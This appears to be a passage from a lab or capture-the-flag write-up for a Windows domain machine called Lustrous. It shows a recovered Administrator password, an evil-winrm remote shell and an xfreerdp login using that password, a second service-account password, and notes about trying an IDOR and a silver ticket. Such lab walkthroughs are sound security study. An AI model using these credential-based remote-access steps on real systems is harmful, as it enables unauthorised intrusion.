 
    UserName       : Administrator
    Password       : XZ9i=bgA8KhRP.f=jr**Qgd3Qh@n9dRF
    SecurePassword : System.Security.SecureString
    Domain         :

    ➜  lustrous evil-winrm -i LUSMS -u administrator -p 'XZ9i=bgA8KhRP.f=jr**Qgd3Qh@n9dRF'
                                            
    Evil-WinRM shell v3.7
                                            
    Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                            
    Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                            
    Info: Establishing connection to remote endpoint
    *Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
    lusms\administrator
    *Evil-WinRM* PS C:\Users\Administrator\Documents> hostname
    LusMS

rdesktop

    ➜  lustrous xfreerdp /u:administrator /p:'XZ9i=bgA8KhRP.f=jr**Qgd3Qh@n9dRF' /w:1566 /h:968 /v:lusms.lustrous.vl:3389

    There is a a web server but we cannot access so lets get RDP shell and look at that.

    admin pass not work so let use other pass

![alt text](<../assets/images/2.png>)

i think there idor vulnerability but we need passwor  i guees..

with svc_web : iydgTvmujl6f we have no notes.

im gonna try directly sliver ticket while we have admin shell
